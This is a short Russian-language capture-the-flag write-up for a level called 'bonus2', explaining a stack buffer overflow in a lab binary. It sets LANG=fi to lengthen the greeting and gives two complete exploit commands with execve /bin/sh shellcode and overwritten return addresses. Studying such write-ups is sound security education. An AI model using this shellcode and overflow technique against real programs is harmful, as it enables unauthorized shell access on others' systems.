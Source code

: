 ## bonus2
B этом уровне мы можем заметить наличие двух функций `main()` и `greetuser()`. кроме того, в глаза бросается использование переменной окружения. Вызова оболочки в коде нет, поэтому необходимо прописывать shellcode. 

![](../../docs/img/bonus2_1.png)

### Первый способ:

Записать shellcode в буфер функции `main()` и записать адрес буфера в регистр `eip`. Достаточное переполнение буфера невозможно при приветствии по-английски (5 символов). Поэтому надо сменить значение переменной окружения `LANG` на `fi` или `nl`. Рассмотрим вариант с финским приветствием - тут оффсет нужного регистра - 18. Адрес буфера - `0xbffff6d0`.

Итоговая команда:

```sh
$ LANG=fi ./bonus2 $(python -c 'print "a"*19 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print "a"*18 + "\xd0\xf6\xff\xbf"')
```

### Второй способ:

Записать shellcode не в буфер, а в переменную окружения, так как это делает взаимодействие с памятью более стабильным. Для этого понадобится так же найти адрес переменной окружения. 

Итог:

```sh
$ export EXPLOIT=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

$ LANG=fi ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "a"*18 + "\x10\xf5\xff\xbf"')
```

